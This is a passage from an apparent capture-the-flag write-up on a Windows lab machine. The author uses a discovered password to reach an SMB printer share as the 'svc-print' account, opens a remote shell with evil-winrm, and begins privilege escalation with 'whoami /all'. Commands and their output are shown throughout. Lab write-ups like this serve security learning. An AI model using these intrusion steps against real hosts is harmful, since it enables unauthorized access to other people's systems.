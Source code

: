  We're on a Winodws 10 box... password complexity IS turned on (glad we set cewl up the way we did), tlavel's password was already reset, and we've got a printer share.  Wait a minute, a password!  But for what account?  It's obviosuly for the printer... which account would install the printer?  How about the print service account!
 
 ```
 smbclient \\\\10.10.10.193\\HP-MFT01 -U "svc-print"
Enter WORKGROUP\svc-print's password: 

smb: \> pwd
Current directory is \\10.10.10.193\HP-MFT01\
```
 
 Now we've got something!  I close out of the gobuster directory search as we don't even need it, we've got a user.  Now, where can we go from here?  Let's go back to Nmap.  HTTP but I don't see a login to maybe upload a reverse shell, but we do have wsman (port 5985).  I check my cheat sheet... EVIL WINRM MWAHAHAAHA!
 
```
evil-winrm -i 10.10.10.193 -u svc-print
*Evil-WinRM* PS C:\Users\svc-print\desktop> dir


    Directory: C:\Users\svc-print\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/2/2021   2:25 AM          10576 Capcom.sys
-ar---         2/1/2021  10:41 PM             34 user.txt
```

## PrivEsc

Now that we've got a user, we need to finish this box.  We've got a stable shell, so let's figure this out.  Remember that this is where I got so lost last time that I gave up even after looking at a write up.  Enough time had passed to where I completely forgot the write up details, so this should be fun.

The biggest lesson the failure taught me last time is to have your methodology ready to go in your cheat sheet.  Mine is in Onenote and now the first page under Windows Priv esc contains some commands to run.  Like this one:

```
*Evil-WinRM* PS C:\Users\svc-print\desktop> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
fabricorp\svc-print S-1-5-21-2633719317-1471316042-3957863514-1104


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
```
